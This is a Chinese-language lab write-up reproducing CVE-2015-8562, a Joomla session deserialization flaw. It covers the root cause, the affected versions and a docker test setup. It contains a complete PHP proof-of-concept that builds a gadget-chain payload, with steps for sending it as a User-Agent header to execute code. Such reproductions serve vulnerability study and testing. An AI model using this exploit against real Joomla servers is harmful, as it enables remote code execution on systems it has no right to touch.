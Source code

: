 # Joomla 3.4.5 反序列化漏洞 CVE-2015-8562

## 漏洞描述

本漏洞根源是PHP5.6.13前的版本在读取存储好的session时，如果反序列化出错则会跳过当前一段数据而去反序列化下一段数据。而Joomla将session存储在Mysql数据库中，编码是utf8，当我们插入4字节的utf8数据时则会导致截断。截断后的数据在反序列化时就会失败，最后触发反序列化漏洞。

通过Joomla中的Gadget，可造成任意代码执行的结果。

详情可参考：

- https://www.leavesongs.com/PENETRATION/joomla-unserialize-code-execute-vulnerability.html

## 漏洞影响

```
Joomla 1.5.x, 2.x, and 3.x before 3.4.6
PHP 5.6 < 5.6.13, PHP 5.5 < 5.5.29 and PHP 5.4 < 5.4.45
```

## 环境搭建

Vulhub启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080/`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库地址：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

然后我们不带User-Agent头，先访问一次目标主页，记下服务端返回的Cookie：

![img](images/2-168180288501438.png)

再用如下脚本生成POC：（[在线运行](http://sandbox.onlinephpfunctions.com/code/17e7080841ccce12f6c6e0bb1de01b9e390510bd)）

```php
<?php
class JSimplepieFactory {
}
class JDatabaseDriverMysql {

}
class SimplePie {
    var $sanitize;
    var $cache;
    var $cache_name_function;
    var $javascript;
    var $feed_url;
    function __construct()
    {
        $this->feed_url = "phpinfo();JFactory::getConfig();exit;";
        $this->javascript = 9999;
        $this->cache_name_function = "assert";
        $this->sanitize = new JDatabaseDriverMysql();
        $this->cache = true;
    }
}

class JDatabaseDriverMysqli {
    protected $a;
    protected $disconnectHandlers;
    protected $connection;
    function __construct()
    {
        $this->a = new JSimplepieFactory();
        $x = new SimplePie();
        $this->connection = 1;
        $this->disconnectHandlers = [
            [$x, "init"],
        ];
    }
}

$a = new JDatabaseDriverMysqli();
$poc = serialize($a); 

$poc = str_replace("\x00*\x00", '\\0\\0\\0', $poc);

echo "123}__test|{$poc}\xF0\x9D\x8C\x86";
```

![img](images/1-168180288501439.png)

将生成好的POC作为User-Agent，带上第一步获取的Cookie发包，这一次发包，脏数据进入Mysql数据库。然后同样的包再发一次，我们的代码被执行：

![img](images/3-168180288501440.png)